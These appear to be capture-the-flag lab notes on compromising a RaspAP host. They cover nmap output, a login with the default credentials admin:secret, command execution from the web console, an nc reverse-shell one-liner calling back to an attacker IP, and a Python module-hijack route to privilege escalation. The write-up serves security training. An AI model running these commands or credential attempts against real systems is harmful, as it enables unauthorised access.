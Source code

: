 **IP:** `192.168.113.97`

---

## TARGET / OS & TECH
- **OS/TECH:** Debian
- **Notable apps:** RaspAP (web GUI), lighttpd 1.4.53
- **Mgmt UI on 8091:** Couchbase-like favicon observed, but headers show **RaspAP** realm

---

## USERS / CREDENTIALS (seen)
```
janis
paige
terry
walter
```
Web UI default worked: `admin:secret` (RaspAP)

---

## SERVICES (quick view)
- `8091/tcp` HTTP → **RaspAP login (Basic auth)** → realm `"RaspAP"` → default creds `admin:secret` **worked**
- `25/tcp` SMTP → Postfix (banner: `walla ESMTP Postfix (Debian/GNU)`)
- `23/tcp` Telnet → Linux telnetd (login/pass unknown)
- `53/tcp` tcpwrapped
- `22/tcp`, `422/tcp`, `42042/tcp` → OpenSSH 7.9p1

---

## NMAP (focused scan on 8091)
```
PORT     STATE SERVICE VERSION
8091/tcp open  http    lighttpd 1.4.53
| http-headers: 
|   Set-Cookie: PHPSESSID=rogefvdqj0hrnhn86iqp5j4qvf; path=/
|   Expires: Thu, 19 Nov 1981 08:52:00 GMT
|   Cache-Control: no-store, no-cache, must-revalidate
|   Pragma: no-cache
|   WWW-Authenticate: Basic realm="RaspAP"
|   Content-type: text/html; charset=UTF-8
|   Content-Length: 15
|   Connection: close
|   Date: Tue, 02 Sep 2025 14:41:45 GMT
|   Server: lighttpd/1.4.53
|   
|_  (Request type: GET)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

---

## FULL NMAP
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
|_banner: SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
23/tcp    open  telnet     Linux telnetd
|_banner: Linux Telnetd 0.17
25/tcp    open  smtp       Postfix smtpd
|_banner: 220 walla ESMTP Postfix (Debian/GNU)
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
|_banner: SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
8091/tcp  open  http       lighttpd 1.4.53
|_http-server-header: lighttpd/1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
|_banner: SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## WEB FINDINGS (RaspAP)
- Header `WWW-Authenticate: Basic realm="RaspAP"` confirms RaspAP.
- Default credentials **`admin:secret`** successfully authenticated.
- RaspAP **Console** provided command execution; enumerated local users:
  - `janis`, `paige`, `terry`, `walter`
- First flag found under `/home/walter`.

---

## INITIAL ACCESS (lab notes)
**Reverse shell (as observed in lab)**:
```bash
nc -e /bin/bash 192.168.45.170 80
```
After triggering from the RaspAP console, a reverse shell was received.

---

## POST-EXPLOIT / LOCAL ENUM
- In `/home/walter` discovered `wifi_reset.py`:
  - Python 2 script (`#!/usr/bin/python`), imports `wificontroller` module.
  - Writable by `www-data` and executed from a context that calls its module functions.
  - **Observation:** Classic Python library hijack opportunity if a privileged context executes this script and searches the current directory for `wificontroller.py`.
  - For safe proof-of-execution, create a benign `wificontroller.py` implementing `stop/reset/start` and log UID/GID to `/tmp/` when the script runs.

_Example proof-only snippet used in lab notes (Python 2):_
```python
# /home/walter/wificontroller.py
import os
def _p(t):
    open('/tmp/wifi_hijack_proof.txt','a').write('%s uid=%d gid=%d\n' % (t, os.getuid(), os.getgid()))
def stop(i,a):  _p('stop')
def reset(i,a): _p('reset')
def start(i,a): _p('start')
```
Then:
```bash
python2 /home/walter/wifi_reset.py
cat /tmp/wifi_hijack_proof.txt   # shows execution context
```

